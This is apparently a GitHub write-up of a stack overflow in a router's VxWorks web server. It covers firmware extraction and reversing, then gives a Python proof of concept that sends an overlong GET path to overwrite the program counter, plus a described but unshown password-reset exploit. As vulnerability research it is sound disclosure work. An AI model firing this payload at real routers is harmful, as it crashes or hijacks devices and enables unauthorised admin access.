



### Analysis

Use binwalk to analyze the firmware.
```
$ binwalk ./MX25L8005_20230813_224125.BIN
DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
13664         0x3560          U-Boot version string, "U-Boot 1.1.4 (Aug 28 2014 - 18:04:52)"
13712         0x3590          CRC32 polynomial table, big endian
14996         [0x3A94]          uImage header, header size: 64 bytes, header CRC: 0xEBE5C5A2, created: invalid timestamp, image size: [37958] bytes, Data Address: 0x80010000, Entry Point: [0x80010000], data CRC: 0x9BE8162C, OS: Linux, CPU: MIPS, image type: Firmware Image, compression type: lzma, image name: "u-boot image"
15060         0x3AD4          LZMA compressed data, properties: 0x5D, dictionary size: 8388608 bytes, uncompressed size: 100568 bytes
61440         0xF000          IMG0 (VxWorks) header, size: 794144
61568         0xF080          Wind River management filesystem, compressed, 165 files
69532         0x10F9C         LZMA compressed data, properties: 0x5A, dictionary size: 8388608 bytes, uncompressed size: 10345 bytes
...
```
We can see that there is a uimage with a header at 0x3A94, a uImage (uboot image) of size 37958, and a loaded address of 0x80010000, and processor architecture mips (big endian). So we dump the uboot and decompress it.
```
$ dd if=MX25L8005_20230813_224125.BIN of=uboot.bin.lzma bs=1 skip=$((0x3A94 + 64)) count=37958
$ lzma -d ./uboot.bin.lzma
```

Using IDA to analyze uboot.bin
```
a. 
  IDA -> mips big endian
b.
  load address = 0x80010000
  rom address = 0x80010000
c.
  IDA -> Options -> General -> Analysis -> Processor specific analysis options -> $gp value = 0x800282D0
d.
  import idc
  for ea in range(0x800282D0, 0x800288D7, 4):
    idc.del_items(ea)
    idc.create_dword(ea)
``` 

Reverse uboot.bin to analyze the location of the vxwork firmware.

Then dump the vxwork firmware.
```
$ dd if=MX25L8005_20230813_224125.BIN of=vxworks.bin.lzma bs=1 skip=$((0x4a680)) count=$((0x8671d))
$ lzma -d ./vxworks.bin.lzma
```
Reverse and analyze vxworks.bin then dig for vulnerabilities.


### Bug

The reason for the vulnerability is that when going to the file system to fetch a file, an overflow can occur when the file path is too long. The overflow overwrites the PC value.

Proof of concept
```
import socket
import struct

from socket import htonl, htons

PORT = 80
IP   = "192.168.1.1"
p32  = lambda n   : struct.pack('>I', n)

io = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
io.connect((IP, PORT))
request = b'' \
+ b'GET /login/' + b'A'*0x109 + p32(0x12345678) + b'/arc.gif HTTP/1.1\r\n' \
+ b'Host: 192.168.1.1\r\n' \
+ b'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36\r\n' \
+ b'\r\n'
io.send(request)
io.recv(4096)
io.close()
```

Running this Poc, the router Crash and is hijacked to 0x12345678. this suggests that the excessively long file path triggered a stack overflow.




### Attack

Construct a exploitation script that changes the value of the password in memory to admin (the default), triggering the router to reset the password.


https://github.com/Giles-one/FW300RouterCrack/assets/71769243/5f8e8165-ef9a-4f62-b566-514864aa2543

[Attack vedio](./attack.mp4)
